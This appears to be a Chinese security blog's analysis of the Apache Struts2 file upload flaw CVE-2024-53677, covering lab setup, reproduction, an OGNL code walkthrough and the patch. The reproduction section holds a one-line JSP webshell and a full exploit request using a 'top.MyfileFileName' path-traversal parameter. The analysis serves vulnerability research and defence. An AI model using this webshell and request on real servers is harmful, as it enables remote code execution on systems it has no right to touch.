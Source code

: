 #  Apache Struts2 文件上传漏洞分析（CVE-2024-53677）   
元亨-blckder02  中孚安全技术研究   2024-12-20 11:30  
  
1. 前言  
  
**官方公告:**  
     
https://cwiki.apache.org/confluence/display/WW/S2-067  
  
**漏洞描述：**  
Apache Struts 的文件上传逻辑存在缺陷，如果应用程序使用了 FileUploadInterceptor，在进行文件上传时，攻击者可以操纵文件上传参数来启用路径遍历，在某些情况下，这可能导致上传可用于执行远程代码执行的恶意文件。  
  
**影响版本：**  
Apache Struts：           

     2.0.0 - 2.3.37（EOL）

     2.5.0 - 2.5.33 

     6.0.0 - 6.3.0.2  
  
2. 环境搭建  
  
可以参考[《Apache Struts2 文件上传漏洞分析（CVE-2023-50164）》](https://mp.weixin.qq.com/s?__biz=Mzg4Nzc3MTk3Mg==&mid=2247488378&idx=1&sn=1f8fe746251c491a981785d65aaf137c&scene=21#wechat_redirect)  
  
  
将 pom.xml 中 Struts2 的版本改为 6.3.0.2 即可。  
```
<dependency>
      <groupId>org.apache.struts</groupId>
      <artifactId>struts2-core</artifactId>
      <version>6.3.0.2</version>
    </dependency>
```  
  
3. 漏洞复现  
  
同样准备一个jsp木马文件。  
```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KBGFtwJPcPutPbPTfCeic5A9jP0iapG4HWhAibic4X3GGnvCegEPHTzjnQw/640?wx_fmt=png&from=appmsg "")  
  
上传木马文件抓包，在下面添加一个参数，参数名设置为  
top.MyfileFileName  
，参数内容设置为木马文件保存的相对位置及文件名。  
  
从响应包可以看到文件名覆盖成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499K1iaaibOT7vVzemsz8R8Fd9tXSP934m0vYicPFdKVne2q0O10ib0M9MibZYA/640?wx_fmt=png&from=appmsg "")  
  
请求包：  
```
POST /upload.action HTTP/1.1            
Host: 127.0.0.1:8888            
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0            
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8            
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2            
Accept-Encoding: gzip, deflate, br            
Content-Type: multipart/form-data; boundary=---------------------------3701280597827013112747531662            
Content-Length: 438            
Origin: http://127.0.0.1:8888            
Connection: keep-alive            
Referer: http://127.0.0.1:8888/upload.action            
Cookie: JSESSIONID=4209098B9C419F73225118698688A603            
Upgrade-Insecure-Requests: 1            
Priority: u=0, i            
       
-----------------------------3701280597827013112747531662            
Content-Disposition: form-data; name="Myfile"; filename="S2-067.txt"            
Content-Type: text/plain 

<%Runtime.getRuntime().exec(request.getParameter("i"));%>            
-----------------------------3701280597827013112747531662            
Content-Disposition: form-data; name="top.MyfileFileName";             
Content-Type: text/plain 
          
../exec.jsp            
-----------------------------3701280597827013112747531662--
```  
  
  
文件保存到了  
/uploads  
目录下，且文件名保存为构造传入的exec.jsp  
。********  
  
访问jsp文件，能成功执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOibkQCLtaHk58mqPpdaOH7MUDUMibUj074bGPwfHA4uZRwEVeibgnoPmg/640?wx_fmt=png&from=appmsg "")  
  
4. 漏洞分析  
  
经过对 S66 漏洞的修复，已经不能再使用大小写来二次调用属性的 setter 方法了。学习了 y4tacker 师傅的思路，通过先获取 OgnlValueStack 值栈中的栈顶对象，再访问其属性。           有三种形式获取栈顶对象：  
[0]  
、  
top  
、  
[0].top  
    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KwmibV4Mz4A4T9phh7PWVPPjicb1nUPhaV3jz8QKVxf9gziacWXib6vqvwA/640?wx_fmt=png&from=appmsg "")  
  
但是在参数绑定之前，会对参数进行合规校验，其中有条正则如下，要求  
(\[\d+])  
前面还需要存在一些其他字符，所以  
[0]  
和  
[0].top  
都无法通过参数合规性判断，所以只能使用  
top  
来获取栈顶对象。             
```
\w+((\.\w+)|(\[\d+])|(\(\d+\))|(\['(\w-?|[\u4e00-\u9fa5]-?)+'])|(\('(\w-?|[\u4e00-\u9fa5]-?)+'\)))*
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Ksw8LibAxLJ7YyiaMMnxO7BNwzJcykwppbyupEqRMSqib6FZYHS4DchKkA/640?wx_fmt=png&from=appmsg "")  
  
前面部分的参数处理就不细说了，再看下 S66 那篇分析就可以了。这里就只看一下如何处理的  
top  
节点。             
  
从 ParametersInterceptor.setParameters() 看起，对 OgnlValueStack 对象进行参数绑定。           可以看到，TreeMap 对象中，top.MyfileFileName 参数是排在最后一位的，这时前面三个参数都已经绑定完成了，这时 MyfileFileName 参数的是  
S2-067.txt  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOkVAQS1maVP3u1hb66ibly9nHJjHiavf4pgyEq70E5xMJ6FGicv2ehCkg/640?wx_fmt=png&from=appmsg "")  
  
跟进到 OgnlUtil.compileAndExecute()，对 top.MyfileFileName 进行表达式解析并执行。（解析为链式节点ASTChain）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499K2HqJMOyKcFic8x134jy5GR8LZbdyuiaduQ5Sy0g8cpEYNgaqZZRibG78g/640?wx_fmt=png&from=appmsg "")  
  
跟进到 ASTChain.setValueBody()，遍历处理子节点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KSIxJ4kp45MFZfBvd7NTia9MuHoQM71ksElwJ38VU3jSl5rXPDY7m43Q/640?wx_fmt=png&from=appmsg "")  
  
先获取 top 节点的值，到 CompoundRootAccessor.getProperty() 中有这样一段 if 判断，如果子节点为 top，root 不为空，就返回栈顶对象，即 UploadAction。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KOsndcB38Xu8MDIOTc1EyKc69m8mjtYl0ZWHOtPo25omu05lavqicnow/640?wx_fmt=png&from=appmsg "")  
  
接着就是为 UploadAction 对象的 MyfileFileName 属性设置值，ObjectPropertyAccessor.setPossibleProperty() 中尝试去调用 setter 方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KWlM5FqShQ6GsrWeFuSLc1OPVQXpzcTicM1OUz2ibwdA6h7Xe3IzgP1fw/640?wx_fmt=png&from=appmsg "")  
  
ConcurrentHashMap.get()，从缓存中先获取到 UploadAction 的所有 setter 方法，再从中获取 setMyfileFileName() 并返回。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KFnXY2Gvde4YBJ9E1lsdZZFO4cibWgDE1ibEj7e4N39ZJSCW5lKVQnr9g/640?wx_fmt=png&from=appmsg "")  
  
接着调用 setMyfileFileName()。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KiaAwPHBhiac2BpyhibiangG2uA7aXSibBQx0h50keWeB1nbdZB6MCnkExnA/640?wx_fmt=png&from=appmsg "")  
  
myfieFileName 被覆盖为  
../exec.jsp  
，后续解析路径穿越符，于是上传保存的文件路径就是  
/uploads/exec.j  
sp  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Kt6m1GXfic7r2g7iazKFIwoiaOREJoDPpBDehRMBSsiaibGMGaRkoicWq4UjQ/640?wx_fmt=png&from=appmsg "")  
  
5. 补丁分析  
  
官方并没有针对这次利用方法发布补丁，而是在新版本中推出了新的文件上传拦截机制。             
org.apache.struts2.interceptor.ActionFileUploadInterceptor    
    
https://struts.apache.org/core-developers/action-file-upload  
  
ActionFileUploadInterceptor 中直接从文件中获取参数信息，并没  
有把文件参数与请求中的参数进行合并。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KSo7H7TuxGp83G64IKYSjSZYNSfArZZdm48KkeLuuITJ62YVUwbRB4A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KuyVpLMfWzLKptZgYlLNZ6Lqhhh6pJPyIsaWyY8Kwd2Yh4dibUROATVw/640?wx_fmt=png "")  
  
不过在执行 ActionFileUploadInterceptor 拦截器前，先执行了 FileUploadInterceptor，所以请求中构造的 top.MyfileFileName 还是被合并到了参数中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499KHETaCm6cy5SPHQpPAgCWBncibpeHm5z2h5VafL9O3ztUzlQ9rn8yNiaQ/640?wx_fmt=png&from=appmsg "")  
  
在参数绑定过程中仍然会覆盖 MyfileFileName 的值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57ME7LEFMtgDSpiaVVibuX499Ka4l5ucw81unEsxw5aHcJJBriaDaiaJe1GAicznBwRyF9Kf2Bev4BCzjrQ/640?wx_fmt=png&from=appmsg "")  
  
****  
  
**参考链接：**  
https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/  
      
  
